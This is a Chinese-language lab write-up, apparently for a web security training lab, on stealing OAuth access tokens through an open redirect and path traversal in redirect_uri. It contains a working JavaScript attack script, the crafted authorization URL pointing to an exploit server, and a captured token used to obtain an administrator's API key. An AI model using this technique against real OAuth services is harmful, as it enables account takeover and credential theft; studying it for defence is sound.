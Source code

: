 ### 开放重定向绕过 url 过滤

用户可控的 CallBack 链接导致窃取 token。如下是正常授权登录的数据包：

![image-20250606155517357](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606155517357.png)

### 没有登陆的 OAuth 情况

向 OAuth 服务方的 auth 页面发送验证请求：

![image-20250606154456971](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606154456971.png)

OAuth 页面挂起如下申请：

![image-20250606154549963](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606154549963.png)

用户点击 continue 将返回 callback 接口的重定向响应。

![image-20250606154618665](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606154618665.png)

### 已经登陆的情况

发送一个 auth 授权申请，直接返回 callback 重定向 url（不需要再点击 continue）：

![image-20250606155649750](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606155649750.png)

### 攻击

存在开放重定向：

![image-20250606161632792](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606161632792.png)

攻击脚本部署到攻击者页面上：

```js
<script>
    if (!document.location.hash) {	// 这里是让用户发送 auth 验证。
        window.location = 'https://oauth-0a920095039630f3802b793902fc00aa.oauth-server.net/auth?client_id=qqtupcdkqye4irwvfdj8h&redirect_uri=https://0a7600a403fb30c780427b23002c003e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a55009803c630c780737a1c017a00f9.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {			// 这里是接收 Oauth 服务器发来的重定向 callback 响应，并将 access token 提取出来作为参数请求主页面。
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

攻击者访问此脚本首先访问如下链接：

```
# 访问此链接用户将发起授权请求。
https://oauth-0a920095039630f3802b793902fc00aa.oauth-server.net/auth?client_id=qqtupcdkqye4irwvfdj8h&redirect_uri=https://0a7600a403fb30c780427b23002c003e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a55009803c630c780737a1c017a00f9.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email
```

![image-20250606155940097](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606155940097.png)

```
# callback 地址将被恶意重定向到攻击者页面：
https://0a7600a403fb30c780427b23002c003e.web-security-academy.net/post/next?path=https://exploit-0a55009803c630c780737a1c017a00f9.exploit-server.net/exploit/#access_token=WjyEKRY27XbZ9DKpg99tRNjwjCliTXwGmF-R1sneGrp&expires_in=3600&token_type=Bearer&scope=openid profile email

# 将直接重定向到攻击者页面，由 js 代码处理，然后 js 代码将参数带到攻击者服务器的主页 /
```

![image-20250606160510933](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606160510933.png)



将脚本传递给 administrator，使用日志里记录的 token 访问，来获得 apikey：

![image-20250606161408852](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250606161408852.png)

### 开放重定向利用：

当用户输入 url，且后端会返回重要数据到这个 url 时，利用开放重定向，构造攻击者网址。

总体思路：

1. 是否存在开放重定向漏洞。
2. 此网站内部是否可以将一些敏感信息拼接在重定向的 url 上。

```
redirect_uri 如下：

https://0a7600a403fb30c780427b23002c003e.web-security-academy.net/oauth-callback/../post/next?path=
https://exploit-0a55009803c630c780737a1c017a00f9.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
```

